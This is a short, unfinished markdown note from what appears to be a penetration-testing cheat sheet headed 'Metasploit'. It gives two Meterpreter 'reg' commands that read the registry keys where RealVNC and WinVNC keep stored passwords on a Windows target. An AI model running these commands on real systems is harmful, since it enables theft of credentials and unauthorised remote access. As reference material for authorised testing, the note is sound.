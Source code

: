 # Metasploit

TODO: Fill this info

- RealVNC

```
meterpreter > reg [-r <target_IP>] enumkey -k HKCU\\Software\ORL\\WinVNC3\\Password

meterpreter > reg [-r <target_IP>] queryval -k HKLM\SOFTWARE\RealVNC\WinVNC4 -v password
```
